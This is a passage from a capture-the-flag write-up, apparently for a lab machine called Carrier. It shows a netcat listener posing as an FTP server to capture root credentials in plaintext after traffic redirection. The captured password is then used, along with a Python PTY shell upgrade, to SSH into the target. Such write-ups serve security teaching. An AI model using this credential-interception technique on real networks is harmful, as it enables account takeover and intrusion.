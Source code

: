 ```bash
root@r1:~# nc -lvnp 21
nc -lvnp 21
Listening on [0.0.0.0] (family 0, port 21)



Connection from [10.78.10.2] port 21 [tcp/*] accepted (family 2, sport 44696)
USER root
PASV
QUIT
```

We can see that the user **root** is trying to login but it **disconnects instantly** since **our server is not answering**.

### Faking an FTP server

There is no need to code something complicated in order to **fake an FTP server**, it can be very simply done with `nc`. The **FTP protocol uses raw telnet commands** so we can fake a server by **typing response codes manually**. All we have to do is to reply with code **331** after the user has sent his username. Then, the user will supply his **password in plaintext**.

```bash
root@r1:~# nc -lvnp 21
nc -lvnp 21
Listening on [0.0.0.0] (family 0, port 21)

Connection from [10.78.10.2] port 21 [tcp/*] accepted (family 2, sport 44728)                                                          
USER root
331 Follow @BoiteAKlou    # Typed manually
PASS BGPtelc0rout1ng

PASV

QUIT
```

### Retrieving the flag

It looks like we have the **root credentials** of the **real FTP server**! Let's verify this.

After **removing the ip address of the FTP server from eth2** and resetting the BGP configuration, we are finally able to connect to **the real Carrier machine** (FTP credentials == SSH credentials).

```bash
root@r1:~# ip addr del 10.120.15.10/25 dev eth2
root@r1:~# ifdown eth2
ifdown eth2
root@r1:~# ifup eth2
ifup eth2
root@r1:~# ping -c 1 10.120.15.10
ping -c 1 10.120.15.10
PING 10.120.15.10 (10.120.15.10) 56(84) bytes of data.
64 bytes from 10.120.15.10: icmp_seq=1 ttl=63 time=0.054 ms

--- 10.120.15.10 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.054/0.054/0.054/0.000 ms
root@r1:~# python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@r1:~# ssh root@10.120.15.10
ssh root@10.120.15.10
root@10.120.15.10's password: BGPtelc0rout1ng

Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)
```